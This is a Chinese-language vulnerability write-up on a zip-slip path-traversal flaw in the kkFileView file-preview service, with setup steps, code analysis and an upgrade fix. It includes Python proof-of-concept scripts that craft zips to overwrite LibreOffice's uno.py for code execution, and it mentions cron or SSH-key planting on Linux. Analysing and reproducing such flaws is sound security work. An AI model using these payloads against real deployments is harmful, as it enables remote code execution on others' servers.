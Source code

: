 0x01 简介

kkFileView是一个开源的在线文件预览解决方案，支持多种文件格式。

### 0x02 漏洞概述

前台上传功能支持上传zip，由于未对提取的文件名进行校验，攻击者通过上传包含恶意代码的压缩包并覆盖系统文件实现任意代码执行。

### 0x03 影响版本

4.2.0 &lt;= kkFileView &lt;= v4.4.0-beta

### 0x04 环境搭建

<https://github.com/kekingcn/kkFileView/releases>下载4.3.0版本源码，idea打开加载依赖

![image-20240417214408972.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-5d537123328362cb8cfb711b1ccbc7c56cb93a3a.png)

编译成安装包

![image-20240417214543961.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-a18f80aeeb086b01a9169676872d409fe9257c99.png)  
可能会遇到编译报错，选择使用如下命令忽略测试则可以跳过此错误，

mvn install -Dmaven.test.skip=true

成功生成压缩包

![image-20240417205446735.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-0c46271347557714a326ce2e6dd4da68cc7f6bf9.png)

解压zip包，进入bin目录，运行startup.bat，搭建成功

![image-20240417205736549.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-cf0991381c0d679165993b5c5234aee1851f3fec.png)

### 0x05 漏洞复现

构造zip，在zip里面必须的有其他另外一个文件：

import zipfile  
​  
if \_\_name\_\_ == "\_\_main\_\_":  
 try:  
 binary1 = b'content\_for\_file\_1'  
 binary2 = b'content\_for\_file\_2'  
   
 with zipfile.ZipFile("example.zip", "a", zipfile.ZIP\_DEFLATED) as zipFile:  
 zipFile.writestr("file1.txt", binary1)  
 zipFile.writestr("../../../../../../../file2.txt", binary2)  
   
 except IOError as e:  
 raise e  
​

上传生成的压缩包，并点击预览

![image-20240417214057481.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-e9f3bf22bb9cd2e6a0ad2020323758518e251d57.png)

成功穿越到D盘，并且内容可控，实现任意文件上传

![image-20240417210332663.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-ca7dd7b780a6c464268b8adc2e14c19f0d02f881.png)

那么何如在Windows上实现RCE？kkFileView在使用odt转pdf时会调用系统的Libreoffice，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容

import zipfile  
​  
if \_\_name\_\_ == "\_\_main\_\_":  
 try:  
 binary1 = b'hackBy0Fs47'  
 \\  
 binary2 = b"\\nimport os\\nos.system('calc')"  
​  
 with zipfile.ZipFile("testBy0Fs47.zip", "a", zipfile.ZIP\_DEFLATED) as zipFile:  
 zipFile.writestr("0Fs47Test.txt", binary1)  
 zipFile.writestr("../../LibreOfficePortable/App/libreoffice/program/uno.py", binary2)  
​  
 except IOError as e:  
 raise e

恶意代码成功写入uno.py

![image-20240417213657114.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-90edecec8d874807869d91b5278dd22c01c6a43a.png)

上传任意的odt文件，并点击预览

![image-20240417213544022.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-cbe7c7b3f5751cef526114daa3fce38646f592a2.png)  
成功执行命令

![image-20240417213310113.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-ce260e64a1bb161a2068d1aa3ada512d770e2450.png)

如果在Linux上部署的，可以通过上面的方式进行rce，当然也可以通过写定时任务或者写公钥的方式达到rce。

### 0x06 代码分析

cn/keking/service/impl/CompressFilePreviewImpl#filePreviewHandle中的compressFileReader.unRar断点，传入参数：压缩包绝对路径和压缩包名

![image-20240417224929866.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-b3ec17a60e28ff5a8df7993a4910168fa1c7f99c.png)

跟进unRar函数，来到cn/keking/service/CompressFileReader#unRar函数，在处理zip的时候，获取了zip的绝对路径

![image-20240417225246703.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-7cd99e0cc1b6ae9bd9c5bdc7599d837211a4df17.png)

进入for循环，从zip中提取文件，创建一个输出流并将数据写入一个新的文件中，extractPath为绝对路径，而str\[0\]是我们构造的文件名，并没有进行任何过滤，实现任意文件上传。

OutputStream out \\= new FileOutputStream( extractPath+ folderName + "\_" + File.separator + str\[0\], true);

![image-20240417230443894.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-eb420d46b581fd2983ccdcc2e16660e17ec4b6a3.png)

成功写入文件

![image-20240417230733283.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-4e16e58ad4ea7479783111d7c6e48385efaabb7b.png)

### 0x07 修复方式

查看官网，升级补丁。

### 0x08 参考

<https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC?tab=readme-ov-file>